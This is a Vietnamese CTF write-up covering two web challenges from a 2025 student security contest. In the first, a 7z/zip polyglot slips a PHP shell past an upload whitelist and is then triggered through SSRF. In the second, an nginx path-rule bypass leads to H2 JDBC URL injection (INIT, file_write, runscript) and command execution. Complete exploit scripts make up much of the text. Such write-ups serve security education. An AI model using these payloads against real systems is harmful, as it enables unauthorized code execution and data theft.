



+++
date = '2026-01-02T17:44:37+07:00'
draft = false
title = 'Writeup (Web) Cybersecurity Student Contest Vietnam 2025'
categories = ['Writeups', 'Web', 'Security']
+++

## ZC-1

Đề bài cung cấp hai dịch vụ: app1 là một api Django chịu trách nhiệm xác nhận người dùng và gửi file zip cho app2, là một dịch vụ apache/PHP có thể giải nén file zip nhận được và lưu trữ file. Docker gán 2 dịch vụ với nhau và gán flag.txt vào app2, app1 được map cổng 8000 và app2 chỉ bị expose qua app1.

`superapp` chứa các cấu hình chính của dịch vụ:

- REST framework cấu hình dùng SessionAuthentication và JWTAuthentication

- `STORAGE_URL`là http://127.0.0.1:8002, (là url để app1 gọi đến app2)

- ALLOW_STORAGE_FILE = (".txt",".docx",".png",".jpg",".jpeg")

- `POST /auth/token/` để lấy access_key (jwt) 

`gateway` app chứa model, serializer, view và util. ở đây tổ chức 2 viewset:

- GatewayViewSet: `POST /gateway/transport/` đọc file gửi lên và gửi cho app2, sử dụng hàm check_file và transport_file; `GET /gateway/health/?module=x` kiểm tra endpoint `x` của app2 dùng hàm health_check.

- UserViewSet: `POST /gateway/user/` đăng kí người dùng và `POST /gateway/user/find/?offset=x` thực hiện tìm kiếm người dùng: trả về username và email.

Hướng giải chính của bài này: người dùng thực hiện đăng ký, upload file zip độc hại và app2 giải nén, sau đó thực hiện ssrf để thực thi file được giải nén.

**bypass upload file zip chứa extension bị filter: zip concentration**

Ta chú ý vào logic upload file của dịch vụ đầu tiên: 

```python
@action(detail=False, methods=['post'], url_path='transport')
def transport(self, request: Request, *args, **kwargs):

    file = request.FILES["file"].file
    if not check_file(file):
        return Response(data="Invalid file")
    file.seek(0)
    msg = transport_file(str(request.user.id), file)

    return Response(data=msg)
```

Tại đây chương trình thực hiện lấy nội dung file qua POST request, sau đó kiểm tra nội dung file nhờ hàm `check_file`, nếu hợp lệ thì tiếp tục thực hiện upload file zip qua hàm `transport_file` với tham số là file zip và id của người dùng. Ta tiếp tục phân tích hàm kiểm tra file đầu tiện:

```python
def check_file(file):
    try:
        with zipfile.ZipFile(file,"r") as zf:
            namelist = zf.namelist()
            if len([f for f in namelist if not f.endswith(allow_storage_file)]) > 0:
                return False
    except:
        return False
    return True
```

Tại đây chương trình sử dụng thư viên zipfile của python. nó sử dụng [namelist()]([zipfile — Work with ZIP archives &#8212; Python 3.14.0 documentation](https://docs.python.org/3/library/zipfile.html#zipfile.ZipFile.namelist)) để kiểm tra các entry của file zip (tên file được nén), nếu chứa một trong các extension bị cấm hoặc lỗi giải nén thì trả về lỗi chương trình.

```python
def transport_file(id, file):
    try:
        res = requests.post(
            url= storage_url + "/storage.php",
            files={
                "id":(None,id),
                "file":file
            },
            allow_redirects=False,
            timeout=2
        )
        return "OK"
    except Exception as e:
        return "ERR"
```

Tiếp theo, chương trình gọi hàm này để thực thi `storage.php` kèm với id của người dùng và nội dung file zip. Ta tiếp tục phân tích mã nguồn:

```php
<?php
require "vendor/autoload.php";
use Archive7z\Archive7z;
if(isset($_POST['id']) && isset($_FILES['file'])){
    $storage_dir = __DIR__ . "/storage/" . $_POST['id'];
    if(!is_dir($storage_dir)){
        mkdir($storage_dir);
    }
    $obj = new Archive7z($_FILES["file"]["tmp_name"]);
    $obj->setOutputDirectory($storage_dir);
    $obj->extract();
}
```

`storage.php` chịu trách nhiệm nhận POST multipart với id và file, script tạo thư mục `__DIR__ . "/storage/" . $_POST['id']`, rồi khởi tạo đối tượng `Archive7z`, sau đó gọi `setOutputDirectory($storage_dir)`  để thực hiện ghi file được giải nén.

Đến đây về cơ bản ta đã hoàn thành được luồng hoạt động của chương trình khi upload và giải nén file vào dịch vụ app2. Có một số vấn đề đến đây ta đặt được nghi vấn:

- Ta có thể lấy được path chính xác mà của file ta upload do chương trình không thực hiện random lại path và tên file. Ta có thể lấy id người dùng từ token và path/tên file sẽ chính xác như file được zip. Đồng thời dịch vụ có hỗ trợ gọi endpoint của app2, cho nên đến đây ta đã biết được phải sử dụng endpoint này để thực thi file upload.

- 2 dịch vụ sử dụng 2 cách giải nén file khác nhau, ta sẽ khai thác sự bất đồng bộ giữa: zipfile của python và Archive7z để bypass whitelist đuôi file. Từ đó upload file php lên app2, sau đó thực thi file bằng ssrf.

Đầu tiên ta cần phân tích cấu trúc của một file zip: 

1. local file header + file data

2. central directory: gần cuối file, chứa metadata của các file trong file zip (tên, kích thước, offset)

3. end of central directory: chứa metadata của central directory

`zipfile` của python tìm end of central directory đầu tiên, sau đó đọc metadata của các file và thực hiện giải nén. kết quả của việc này là các file được zipfile giải nén chỉ quan tâm tới phần cuối của file và chấp nhận các leading junk. còn `7z` đầu tiên sẽ kiểm tra magic byte đầu tiên, nếu trùng khớp thì nó thực hiện giải nén toàn bộ các thành phần nó tìm thấy trong file.

kết quả là: ta có thể bypass bằng cách đặt file 7z ở đầu và file zip ở sau để bypass. Ta thực hiện viết một script đơn giản để kiểm chứng:

```python
from os import system as s
s('echo phppayload > shell.php')
s('echo nglong05 > ok.txt')
s("7z a -t7z evil.7z shell.php")
s("zip -9 -q good.zip ok.txt")
s("cat evil.7z good.zip > poly.zip")

from io import BytesIO
with open("poly.zip","rb") as f:
    fileobj = BytesIO(f.read())
    print(check_file(fileobj))  # True

s("7z l poly.zip") # chứa shell.php
```

**ssrf thực thi file và lấy flag**

Đến đây ta đã có thể up file php từ đó RCE hệ thống app2. Ta có một số lựa chọn để trích xuất flag: vì endpoint healthcheck chỉ trả về 200/500 nên ta có thể thực hiện trích xuất flag theo byte (ví dụ gửi file kiểm tra từng kí tự tại từng vị trí, nếu chính xác thì trả về 200). Ở đây ta có cách làm khác nhanh hơn: dùng app2 gọi lại tới app1 để đăng ký người dùng mới, với email chứa flag, sau đó dùng endpoint tìm kiếm người dùng để tìm lại flag.

Ta thực hiện viết script như sau: đầu tiên đăng ký một tài khoản, trích xuất ra access_token (jwt) và user_id 

```python
import requests
from base64 import b64decode
import json
url = "http://web2.cscv.vn:8000/"
r = requests.post(url=url + "gateway/user/", json={"username": "nnglong05", "password": "nglong05"})
r = requests.post(url=url + "auth/token/", json={"username": "nnglong05", "password": "nglong05"})
access_token = r.json().get('access')
user_id = json.loads(b64decode(access_token.split('.')[1])).get("user_id")
print(user_id) # c4decbea-a3e2-41a4-a273-70c1a48866c9
```

Tiếp đến thực hiện tạo một `poly.zip`, thực hiện các kỹ thuật đã trình bày ở trên: tạo một file php thực thi, sau đó sử dụng 7z để nén file php và zip 1 file txt, sau đó để file 7z lên đầu. Ở đây, nội dung file php thực thi có nhiệm vụ lấy flag, sau đó đăng ký một tài khoản mới với mail có chứa flag:

```python
# credential for the flag user
user = "fla_user_nglong05_3"
password = "97348gey32095u89re"
# php file content
php_content =f"""<?php
$flag = @file_get_contents('/flag.txt');
$enc = base64_encode($flag);
$email = $enc . '@nglong05.com';
$payload = json_encode([
    "username" => "{user}",
    "password" => "{password}",
    "email" => $email
]);
$cmd = 'curl -s -X POST "http://app1:8000/gateway/user/" -H "Content-Type: application/json" -d ' . escapeshellarg($payload);
system($cmd);
?>
"""

with open("shell.php", "w") as f:
    f.write(php_content)
# craft poly.zip
from os import system as s
s('echo nglong05 > ok.txt')
s("7z a -t7z evil.7z shell.php >/dev/null")
s("zip -9 -q good.zip ok.txt")
s("cat evil.7z good.zip > poly.zip")
```

Sau đó thực hiện gửi file zip này và trigger nó qua ssrf:

```python
# send zip file
with open("poly.zip", "rb") as f:
    r = requests.post(url + "gateway/transport/",headers={"Authorization":f"Bearer {access_token}"}, files={"file": f})
    print(r.text)

# trigger php code
r = requests.get(url=url + f"gateway/health/?module=@app2/storage/{user_id}/shell.php")
print(r.text)
```

Cuối cùng, sử dụng credential của user flag và đọc thông tin của user này, mail của tài khoản này sẽ chứa flag:

```python
r = requests.post(url=url + "auth/token/", json={"username": user, "password": password})
access_token = r.json().get('access')
r = requests.post(url=url + "gateway/user/find/", headers={"Authorization":f"Bearer {access_token}"}, json={"username":user})
print(r.text) 
# [{"username":"fla_user_nglong05_3","email":"Q1NDVjIwMjV7WjFwX3oxUF8yMXBfQ2E3X2M0N19jQHRfX30K@nglong05.com"}]
```

## PortfolioS

Ứng dụng được cung cấp bao gồm 2 dịch vụ chính: 

- app: một container chạy ứng dụng java spring boot 

- nginx: một container chạy nginx làm reverse proxy, mục đích là để chuyển tiếp các request đến app

`app` cung cấp các tính năng: đăng ký, đăng nhập, tạo và tải file markdown, đặc biệt có một endpoint nội bộ để kiểm tra kết nối đến database H2. Phân tích docker file, ta nhận thấy flag được đặt trong `/` với tên ngẫu nhiên, vậy mục tiêu của bài toán là RCE được dịch vụ. Bên cạnh đó, dịch vụ được cấu hình với network không gọi ra ngoài internet được, chỉ có thể đi qua nginx.

`nginx` hoạt động như một reverse proxy, cấu hình ánh xạ port 8989 trên host tới port 80  trong container nginx, sau đó foward tới port 8989 của dịch vụ app (proxy_pass http://app:8989). Đặc biệt ở đây, nginx cấu hình chặn các request từ ngoài tới endpoint nội bộ:

```conf
http {
    server {
        listen 80;

        location = /internal/testConnection {
            return 403;
        }
```

Như vậy, luồng hoạt động của chương trình như sau: người dùng truy cập hệ thống qua `host:8989`, nginx nhận request trên port 80 sau đó forward đến `app:8989`. Tại đây app xử lý các request thông qua các endpoint: /login, /register, /dashboard được xử lý bởi các controller tương ứng (AuthController, DashboardController).

Ở đây ta chú ý: dữ liệu được lưu trong cơ sở dữ liệu H2 `jdbc:h2:mem:ctfdb`, còn
portfolio của người dùng được lưu dưới dạng tệp Markdown trong thư mục `/app/data/portfolios/<username>/portfolio_<timestamp>.md`.

**bypass nginx**

Kiểm tra image nginx được sử dụng, ta nhận thấy đây là một phiên bản khá cũ (nginx:1.20.2), thực hiện tìm kiếm exploit đưa ta đến một bài viết:

[Proxy / WAF Protections Bypass | Hacktricks](https://blog.1nf1n1ty.team/hacktricks/pentesting-web/proxy-waf-protections-bypass)



Ở đây, ta sẽ không đi quá sâu lý do vì sao có thể bypass như vậy, về cơ bản đến từ việc nginx ép rule lên path nhất định nhưng tomcat lại có cơ chế parse lại url. Vậy, ta có thể thực hiện kiểm tra cách bypass như sau:


**lợi dụng chức năng kiểm tra H2 database**

Sau khi đã thành công bypass, ta thực hiện phân tích controller tương ứng của nó.

```java
public String testConnection(@RequestParam String username, @RequestParam String password, Model model) {
    if ((username + password).length() >= 95) {
        model.addAttribute("error", "Username + password to long.");
        return "internal";
    } else {
        String baseUrl = "jdbc:h2:mem:test;";
        String fullUrl = baseUrl + "USER=" + username + ";PASSWORD=" + password + ";";

        try (Connection conn = DriverManager.getConnection(fullUrl)) {
            model.addAttribute("message", "Connected successfully to: " + fullUrl);
            return "internal";
        } catch (Exception e) {
            String var10002 = e.getMessage();
            model.addAttribute("error", "Connection failed: " + var10002 + " | URL: " + fullUrl);
            return "internal";
        }
    }
}
```

Tại đây, chương trình nhận vào các tham số gồm username và password. 

- Đầu tiên kiểm tra tổng ký tự, nếu vượt quá 95 thì trả về lỗi. 

- Sau đó chương trình kết nối đến H2 database sử dụng format string, ở đây ta nhận thấy không có biện pháp sanitize nào ngoại trừ kiểm tra độ dài chuỗi, ta có thể inject các H2 URL properties nhờ stack query (ví dụ ;INIT=...). 

- Đồng thời chương trình cũng trả về lỗi `e.getMessage()` trực tiếp tại response.

Đến đây ta có hai hướng: ghi và thực thi một file sql từ đó RCE, hoặc là dựa vào error để leak flag. Với yêu cầu bài toán là thực hiện RCE dịch vụ, ta tiếp tục đi theo hướng thứ nhất đã đề ra.

**thực hiện ghi và thực thi sql file**

Để ghi dữ liệu vào hệ thống của đề bài, ta thực hiện tìm kiếm các hàm có thể ghi/tạo file: https://www.h2database.com/html/functions.html

Ta sẽ sử dụng hàm `file_write`, để thực thi hàm ta sử dụng [INIT](https://www.h2database.com/html/features.html?highlight=init&search=init#execute_sql_on_connection): là một initialization parameter để thực thi SQL ngay khi kết nối tới database. Bên cạnh đó, ta chèn thêm `;` để ngắt query của chương trình, ví dụ như sau:

```
username=x&password=x;INIT=call file_write('pwned','./call.txt')
```

Ta thực hiện viết script để thử nghiệm, có thể thấy trong hệ thống đã tồn tại một file mới:



Vấn đề tiếp theo là thực hiện chèn nội dung file SQL tùy ý trong hệ thống, sau đó sử dụng `runscript` để thực thi: [Executing script file in h2 database - Stack Overflow](https://stackoverflow.com/questions/10675768/executing-script-file-in-h2-database)

Để ghi file lên hệ thống, ta tiếp tục sử dụng hàm `file_write`, tuy nhiên payload sẽ vượt quá 95 ký tự nếu ta trực tiếp sử dụng nó để ghi toàn bộ nội dung file SQL. Vậy ta có ý tưởng tiếp theo: append từng ký tự vào file ta đã thực hiện tạo từ trước.

Quay lại kiểm tra docs của H2, ta nhận thấy không có hàm nào có thể append ký tự vào, vậy ta sẽ sử dụng thêm hàm `file_read`, docs: https://www.h2database.com/html/functions.html#file_read . Ở đây ta lưu ý thêm param thứ 2 cho file_read để chỉ rõ character set sử dụng như đã đề cập trong doc. Mục đích là ta sẽ append nội dung mà file_read đọc được, sau đó append thêm ký tự bằng `||`:

```
call file_write(file_read('./call.txt', 'UTF-8')||'x', './call.txt') 
```

Đến đây, ta sẽ thực hiện thêm từng ký tự trong payload của chúng ta vào `./call.txt`, script được viết tiếp như sau:



Sau khi đã thành công RCE, ta kiếm cách để lấy flag. Vì docker được cấu hình với network không thể kết nối ra ngoài internet, ta sẽ đưa output của command ra dịch vụ để có thể truy cập.

**final payload**

Chương trình cho phép người dùng upload một file markdown lên hệ thống, tuy nhiên các file được upload sẽ bị append thêm những chuỗi nhất định ở đầu file, ta có thể thấy rõ logic này trong controller tương ứng nên không thể nhét SQL vào đây mà phải thực hiện RCE như trên đã trình bày.

File markdown của người dùng được lưu tại `/app/data/portfolios/user-name/portfolio_timestamp.md` và có thể truy cập ở dịch vụ thông qua `GET /download/portfolio_timestamp.md`. Ta thực hiện đưa output của command RCE đến path này và truy cập:

```sql
CREATE ALIAS EXEC AS $$
void exec() throws java.io.IOException {
    new java.lang.ProcessBuilder("/bin/sh","-c","cat /* > /app/data/portfolios/nglong05/rce.txt")
        .start();
}
$$;
CALL EXEC();
$$
```

Sau đó ta xác nhận payload đã hoạt động đúng:

```bash
curl http://localhost:8989/download/flag.txt -H "Cookie: JSESSIONID=A27A07E4F8C5A27EB7FF7AF741D07889"
CSCV{Fake_flag}
```

Trong quá trình thi, đã có đội sử dụng payload `;DB_CLOSE_DELAY=-1` khiến H2 vào trạng thái in-memory DB cho nên H2 sẽ luôn bind với credentials đầu tiên mà nó nhận được, tức chỉ có đội sử dụng payload này mới có thể sử dụng H2. Đó là lý do bài này giữ 1 solve khá lâu cho đến khi ban tổ chức chạy lại chương trình.

Full payload:

```python
import requests
import time
host = "localhost"
url = f"http://{host}:8989/"
s = requests.Session()
cre = {"username": "nglong05", "password": "ass"}
r = s.post(url + "register", data=cre)
r = s.post(url + "login", data=cre)
session = (s.cookies.get("JSESSIONID"))
r = s.post(url + "dashboard/save", data={"content":"nothing"})
import socket
def send(username, password):
    r = (
        "POST /internal/testConnection\t HTTP/1.1\r\n"
        f"Host: {host}\r\n"
        "Content-Type: application/x-www-form-urlencoded\r\n"
        f"Content-Length: {19 + len(username) + len(password)}\r\n"
        f"Cookie: JSESSIONID={session}\r\n"
        "\r\n"
        f"username={username}&password={password}"
    )
    with socket.create_connection((host, 8989)) as s:
        s.sendall(r.encode())
        html = s.recv(4069).decode()
        print(html)

send("sa",";DB_CLOSE_DELAY=1")
send("sa",";INIT=call file_write('','call.txt')")

list = ['C','R','E','A','T','E',' ','A','L','I','A','S',' ','E','X','E','C',' ','A','S',' ','$','$','v','o','i','d',' ','e','x','e','c','(',')',' ','t','h','r','o','w','s',' ','j','a','v','a','.','i','o','.','I','O','E','x','c','e','p','t','i','o','n',' ','{','n','e','w',' ','j','a','v','a','.','l','a','n','g','.','P','r','o','c','e','s','s','B','u','i','l','d','e','r','(','"','/','b','i','n','/','s','h','"',',','"','-','c','"',',','"','c','a','t',' ','/','*',' ','>',' ','/','a','p','p','/','d','a','t','a','/','p','o','r','t','f','o','l','i','o','s','/','n','g','l','o','n','g','0','5','/','f','l','a','g','.','t','x','t','"',')','.','s','t','a','r','t','(',')','\;','}','$','$','\;','C','A','L','L',' ','E','X','E','C','(',')','\;','$','$']

for c in list:
    send("sa",f";init=call file_write(file_read('call.txt','UTF-8')||'{c}','call.txt')")

send('sa',";init=runscript+from+'call.txt'")
r = s.get(url + "download/flag.txt")
print(r.text)
```
